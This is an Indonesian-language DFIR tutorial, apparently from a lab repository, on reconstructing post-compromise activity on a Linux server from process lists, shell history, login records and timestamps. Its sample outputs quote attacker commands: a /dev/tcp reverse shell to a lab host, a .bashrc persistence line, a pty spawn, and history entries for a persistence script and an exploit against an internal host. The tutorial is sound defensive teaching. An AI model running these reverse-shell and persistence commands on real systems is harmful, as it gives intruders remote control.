






# Linux: Execution, History, and Timeline Analysis

[🇬🇧 Read in English](linux-enumeration-investigation-en.md)

Kali ini kita melihat aktivitas yang terjadi pada sebuah sistem Linux dari sisi server.

Pertanyaan yang ingin dijawab:

> **Setelah attacker mendapatkan shell, aktivitas apa yang terjadi pada sistem? Apa yang dijalankan, siapa yang menjalankannya, dan bagaimana urutannya?**

Untuk memahaminya, kita akan melihat beberapa artefak yang dapat diamati pada sistem:

* **Execution**
* **History**
* **Timeline**

---

# Apa itu Linux Enumeration Analysis?

Linux Enumeration Analysis adalah proses menganalisis aktivitas reconnaissance yang terjadi setelah attacker mendapatkan akses ke sebuah sistem Linux.

Pada tahap ini kita tidak langsung menjalankan berbagai perintah enumeration sebagai attacker.

Sebaliknya, kita melihat **jejak aktivitas yang sudah muncul pada sistem** untuk memahami apa yang telah terjadi.

Beberapa hal yang dapat diperhatikan antara lain:

* Perintah apa yang dijalankan.
* User mana yang menjalankannya.
* Apakah terdapat session login.
* Kapan aktivitas tersebut terjadi.
* Bagaimana urutan aktivitasnya.

---

# Mengapa Penting?

Setelah mendapatkan shell, attacker biasanya perlu memahami sistem yang berhasil diakses.

Aktivitas tersebut dapat meninggalkan beberapa artefak, misalnya:

* Shell history.
* Informasi login session.
* User yang sedang aktif.
* Process yang masih berjalan.
* Timestamp dari berbagai artefak.

Artefak tersebut dapat membantu kita memahami aktivitas yang terjadi pada sistem.

Namun, tidak semua aktivitas akan meninggalkan jejak yang lengkap.

Log dapat dihapus, history dapat dinonaktifkan, process dapat selesai sebelum diperiksa, dan timestamp juga memiliki keterbatasan.

Karena itu, kita tidak bergantung pada satu sumber saja. Beberapa artefak perlu dilihat dan dibandingkan untuk mendapatkan gambaran aktivitas yang lebih lengkap.

---

# Flow Analysis

```text
                 Enumeration
                      │
          ┌───────────┼───────────┐
          ▼           ▼           ▼
      Execution     History    Timeline
          │           │           │
          └───────────┼───────────┘
                      ▼
                 Correlation
                      │
                      ▼
             Activity Reconstruction
```

---

# Topologi Lab

| Peran        | Keterangan    | IP Address     |
| :----------- | :------------ | :------------- |
| **Attacker** | Kali Linux    | `10.10.10.149` |
| **Target**   | Ubuntu Server | `10.10.10.2`   |

---

# Demonstrasi

## 1. Execution

Langkah pertama adalah melihat **process yang sedang berjalan** pada sistem dan mencari aktivitas execution yang relevan.

```bash
ps aux | grep -E "bash|sh|python3"
```



### Apa yang ditemukan?

Dari output tersebut terlihat beberapa process yang relevan, di antaranya:

```text
root  416   bash -c while :; do bash -i >& /dev/tcp/10.10.10.149/9001 ...
root  13766 bash -i
root  13870 python3 -c import pty; pty.spawn("/bin/bash")
root  13871 /bin/bash
```

Beberapa informasi penting yang dapat diperhatikan:

* **User** yang menjalankan process.
* **PID** dari process.
* **Command** yang dijalankan.
* **Parent/child process** jika diperlukan.
* **Waktu dan status** process.
* Aktivitas network yang terlihat langsung pada command.

### Apa arti output tersebut?

Process `bash -c` pada PID `416` menunjukkan sebuah loop yang menjalankan interactive Bash dan membuat koneksi ke:

```text
10.10.10.149:9001
```

Sementara PID `13870` menjalankan:

```text
python3 -c import pty; pty.spawn("/bin/bash")
```

yang kemudian menghasilkan process `/bin/bash` pada PID `13871`.

Pada tahap ini, nama `bash` atau `python3` saja tidak cukup untuk menentukan apakah sebuah process mencurigakan. Yang lebih penting adalah **konteks command yang dijalankan**.

Dalam kasus ini, command tersebut memberikan indikasi kuat adanya **remote shell activity** karena terdapat koneksi menuju host eksternal melalui `/dev/tcp`.

Process tersebut kemudian dapat dibandingkan dengan **log dan network connection** untuk melihat hubungan antara aktivitas yang terjadi pada sistem.

---

## 2. History

Selanjutnya kita melihat shell history untuk mengetahui command yang pernah dijalankan pada sistem.

```bash
history
```







### Apa yang ditemukan?

Dari shell history terlihat berbagai aktivitas yang dilakukan pada sistem, mulai dari persistence, koneksi ke host lain, konfigurasi jaringan, hingga percobaan lateral movement.

Contohnya:

```text
./panix.sh --generator --ip 10.10.10.149 --port 9001
nano /etc/systemd/system/persistence.service
echo "/bin/bash -i >& /dev/tcp/10.10.10.149/9001 0>&1" >> ~/.bashrc
ss -tnp | grep 10.10.10.149
python3 cve-2026-4480.py -t 192.168.15.2 -l 10.10.10.2 -p 4444
smbclient -L 192.168.15.2 -N
```

### Apa arti output tersebut?

Command-command tersebut memberikan indikasi bahwa aktivitas pada server tidak berhenti pada reconnaissance awal.

Terlihat beberapa pola aktivitas:

```text
Persistence
    ↓
C2 / Reverse Shell
    ↓
Network Configuration
    ↓
Pivoting
    ↓
Lateral Movement
```

Contohnya:

* `panix.sh` menunjukkan aktivitas yang berkaitan dengan persistence.
* `~/.bashrc` dan `systemd` menunjukkan adanya perubahan pada mekanisme startup.
* `10.10.10.149:9001` menunjukkan komunikasi dengan host attacker.
* `ip addr`, `ip route`, dan `iptables` menunjukkan aktivitas terkait jaringan dan forwarding.
* `cve-2026-4480.py` serta `smbclient` menunjukkan aktivitas menuju host internal `192.168.15.2`.

Dengan demikian, history membantu melihat **urutan dan perkembangan aktivitas attacker**, bukan hanya satu command yang berdiri sendiri.

History tetap merupakan **salah satu evidence** dan dapat dibandingkan dengan process, log, network connection, file modification, serta artifact lainnya.

---

### Jika History Tidak Tersedia

Jika `history` tidak memberikan informasi yang cukup, kita dapat memeriksa langsung file Bash history yang tersimpan di filesystem.

```bash
ls -la ~/.bash_history
```

Pada server ini, file history ditemukan:

```text
-rw------- 1 root root 49227 Sep 16 03:19 /root/.bash_history
```

File tersebut dimiliki oleh `root` dengan permission `0600` dan berukuran sekitar 49 KB.

Selanjutnya kita melihat metadata file:

```bash
stat ~/.bash_history
```

Output menunjukkan waktu terakhir file dimodifikasi:

```text
Modify: 2026-09-16 03:19:11
Change: 2026-09-16 03:19:11
```

Informasi ini dapat digunakan sebagai bagian dari **timeline analysis**, kemudian dibandingkan dengan evidence lain seperti process, log, network connection, dan perubahan file.

Jadi, file `.bash_history` bukan sekadar tempat melihat command, tetapi juga salah satu artifact yang dapat membantu memahami aktivitas pada sistem.

---

## 3. Login Activity

Untuk mengetahui session login yang tercatat pada sistem, kita dapat menggunakan:

```bash
last
```



### Apa yang ditemukan?

Output menunjukkan beberapa session user `moon` dari berbagai source address.

Contohnya:

```text
moon     pts/5   10.10.10.1   Wed Sep 16 09:41   still logged in
moon     pts/0   10.10.10.1   Wed Sep 16 08:53   still logged in
moon     pts/2   10.10.10.1   Wed Sep 16 03:08   gone - no logout
```

Terdapat juga session sebelumnya yang berasal dari network internal:

```text
moon     pts/2   192.168.15.1
moon     pts/0   192.168.15.1
moon     pts/0   192.168.15.2
```

### Apa arti output tersebut?

`last` membantu melihat **siapa yang login, dari mana, dan kapan session berlangsung**.

Informasi tersebut dapat digunakan untuk membentuk hubungan waktu:

```text
Source Address
      ↓
User
      ↓
Login Time
      ↓
Session
      ↓
Activity Evidence
```

Misalnya, jika history menunjukkan aktivitas tertentu pada sekitar `03:08`, session `moon` yang tercatat pada waktu tersebut dapat menjadi salah satu titik yang dibandingkan dengan evidence lainnya.

Status `gone - no logout` juga dicatat sebagai kondisi session yang tidak memiliki logout normal. Ini bukan otomatis berarti malicious activity, tetapi dapat menjadi titik yang perlu diperhatikan ketika dibandingkan dengan process, history, log, dan network activity.

Dengan demikian, `last` membantu menjawab pertanyaan:

> **Siapa yang memiliki session pada sistem, dari mana session tersebut berasal, dan kapan aktivitas tersebut berlangsung?**

---

## 4. Active Users

Selanjutnya kita dapat melihat user yang sedang aktif pada sistem:

```bash
who
```



### Apa yang ditemukan?

Pada saat pemeriksaan, terdapat beberapa session `moon` yang aktif:

```text
moon  pts/0  2026-09-16 08:53 (10.10.10.1)
moon  pts/1  2026-09-16 08:53 (10.10.10.1)
moon  pts/2  2026-09-16 03:08 (10.10.10.1)
moon  pts/3  2026-09-16 03:08 (10.10.10.1)
moon  pts/5  2026-09-16 09:41 (10.10.10.1)
moon  pts/6  2026-09-16 09:41 (10.10.10.1)
```

Terlihat bahwa user `moon` memiliki beberapa terminal aktif dan seluruh session berasal dari `10.10.10.1`.

### Apa arti output tersebut?

`who` memberikan **snapshot session yang sedang aktif saat pemeriksaan dilakukan**.

Informasi ini dapat digunakan untuk melihat:

```text
User
  ↓
Terminal
  ↓
Login Time
  ↓
Source Address
```

Jika terdapat aktivitas mencurigakan pada waktu yang sama, session tersebut dapat dibandingkan dengan `history`, `last`, process, dan network connection.

`who` sendiri tidak menunjukkan command yang dijalankan atau seluruh aktivitas sebelumnya.

---

# 5. Timeline

Setelah melihat `history`, `last`, `who`, dan process information, kita mulai menggabungkan timestamp yang tersedia.

Contohnya:

```text
03:08
│
├── Session user moon dimulai
│
├── pts/2
└── pts/3
        │
        ▼
        Aktivitas shell
        │
        ├── Command pada history
        └── Process yang berjalan
```

Timeline tidak harus langsung lengkap.

Tujuannya adalah mencari hubungan antara **waktu session, command, process, dan evidence lainnya**.

Misalnya terdapat aktivitas pada `history` sekitar `03:08`, sementara `last` menunjukkan session `moon` juga dimulai pada waktu tersebut.

Hal ini memberikan titik yang dapat diperiksa lebih lanjut.

```text
Login
  ↓
Shell Activity
  ↓
Process
  ↓
Network / Log
```

Timeline membantu menjawab:

> **Aktivitas apa yang terjadi, dan dalam urutan seperti apa?**

---

# 6. Correlation

Setelah menemukan beberapa evidence, kita tidak langsung mengambil kesimpulan dari satu output.

Kita menghubungkannya.

Misalnya:

```text
last
 │
 └── moon @ 10.10.10.1
          │
          ▼
       history
          │
          ├── whoami
          ├── id
          ├── uname
          └── ls
          │
          ▼
       process
          │
          ▼
    network / log
```

Dari hubungan tersebut kita dapat membentuk hipotesis:

> Setelah memperoleh akses ke server, terdapat aktivitas reconnaissance lokal untuk memahami user, privilege, sistem operasi, dan filesystem.

Hipotesis tersebut kemudian dibandingkan dengan evidence lain.

Jika process, history, login activity, dan network menunjukkan waktu atau aktivitas yang saling berhubungan, gambaran aktivitas tersebut menjadi lebih kuat.

Namun jika evidence saling bertentangan, sumbernya perlu diperiksa kembali.

---

# Mengenali Pola Aktivitas

Dari evidence yang telah dikumpulkan, kita dapat mulai melihat pola aktivitas yang terjadi pada sistem.

Pola tersebut tidak selalu sama. Analisis sangat bergantung pada **waktu kejadian, jenis infrastructure, arsitektur sistem, jalur jaringan, mekanisme akses, konfigurasi logging, serta artifact yang masih tersedia**.

### Aktivitas pada Sistem

Pada kasus sederhana, analisis mungkin hanya menemukan aktivitas pada satu host. Dari sana kita dapat melihat apakah aktivitas tersebut berkaitan dengan akses awal, perubahan sistem, atau tujuan tertentu.

Tidak semua aktivitas mencurigakan berarti merupakan bagian dari intrusion. Konteks waktu, user, source address, process, file, dan network connection perlu diperhatikan sebelum menarik kesimpulan.

### Aktivitas pada Web Server

Pada web server, analisis dapat berbeda karena aktivitas dapat melibatkan web application, filesystem, database, dan network.

Misalnya ditemukan perubahan pada web application. Kita dapat melihat apakah perubahan tersebut berkaitan dengan request tertentu, process yang berjalan, perubahan file, atau aktivitas lain pada server.

Tujuannya bukan sekadar menemukan perubahan, tetapi memahami **bagaimana perubahan tersebut terjadi dan apakah terdapat aktivitas lain yang berkaitan**.

### Intrusion yang Lebih Kompleks

Pada infrastructure yang lebih kompleks, aktivitas dapat melibatkan beberapa host dan network segment. Analisis kemudian mengikuti evidence yang ditemukan.

Misalnya sebuah host menunjukkan indikasi compromise, tetapi aktivitas berikutnya ternyata terjadi melalui host lain. Kita perlu melihat hubungan antar-host, authentication, network connection, serta sistem mana yang dapat dijangkau dari host tersebut.

Namun, tidak semua tahapan intrusion akan terlihat lengkap.

Evidence dapat hilang karena:

* logging tidak tersedia atau tidak pernah diaktifkan;
* log telah terhapus atau ter-overwrite;
* process sudah berhenti;
* file telah berubah;
* session sudah berakhir;
* aktivitas terjadi pada host lain yang belum diperiksa.

Karena itu, kita tidak seharusnya memaksakan sebuah attack chain agar terlihat lengkap.

Yang penting adalah membedakan **fakta yang didukung evidence**, **kesimpulan yang dapat ditarik**, dan **bagian yang masih belum diketahui**.

Pada akhirnya, pola aktivitas membantu kita **menghubungkan evidence, membangun timeline, menguji hipotesis, dan memahami sejauh mana aktivitas dapat direkonstruksi dari evidence yang masih tersedia**.

---

# Ringkasan Temuan

| Evidence           | Yang Dicari                              |
| :----------------- | :--------------------------------------- |
| **Execution**      | Process dan command yang sedang berjalan |
| **History**        | Command yang tersimpan dari shell        |
| **Login Activity** | User, session, source, dan waktu login   |
| **Timeline**       | Urutan kejadian berdasarkan timestamp    |
| **Correlation**    | Hubungan antar-evidence                  |

Tidak ada satu command yang langsung memberikan seluruh jawaban.

Beberapa evidence perlu dilihat bersama untuk memahami **apa yang terjadi pada sistem**.

---

# Apa Langkah Selanjutnya?

Dari analisis sebelumnya kita sudah mendapatkan indikasi adanya aktivitas reconnaissance.

Pertanyaan berikutnya:

> **Setelah attacker melakukan reconnaissance, file apa yang diperiksa atau dimodifikasi?**

Karena itu pembahasan berikutnya akan berpindah ke **File System Analysis**.

Fokusnya:

* File yang berubah.
* Directory yang diperiksa.
* Timestamp file.
* Webroot.
* Configuration.
* Artifact yang ditinggalkan attacker.

---

# Kesimpulan

Linux Enumeration Analysis bukan sekadar menjalankan command untuk melihat informasi sistem.

Dengan melihat process, history, login activity, dan timestamp, kita dapat memahami berbagai aktivitas yang terjadi setelah sistem berhasil diakses.

```text
Execution
   +
History
   +
Login Activity
   +
Timeline
      ↓
Correlation
      ↓
Activity Reconstruction
```

Dari sini kita dapat berpindah dari sekadar **melihat output command** menjadi **memahami hubungan antar-aktivitas pada sistem**.

Dan ketika aktivitas tersebut mulai berhubungan dengan filesystem, pembahasan dapat dilanjutkan ke **File System Analysis**.

---

## Referensi

* `last` – Linux Manual Page

  https://man7.org/linux/man-pages/man1/last.1.html

* `who` – Linux Manual Page

  https://man7.org/linux/man-pages/man1/who.1.html

* Bash Reference Manual – Startup Files

  https://www.gnu.org/software/bash/manual/html_node/Bash-Startup-Files.html

* Bash Reference Manual – History

  https://www.gnu.org/software/bash/manual/html_node/Bash-History-Builtins.html

* `stat` – Linux Manual Page

  https://man7.org/linux/man-pages/man1/stat.1.html

* MITRE ATT&CK – Linux

  https://attack.mitre.org/matrices/enterprise/linux/

---

Terima kasih.
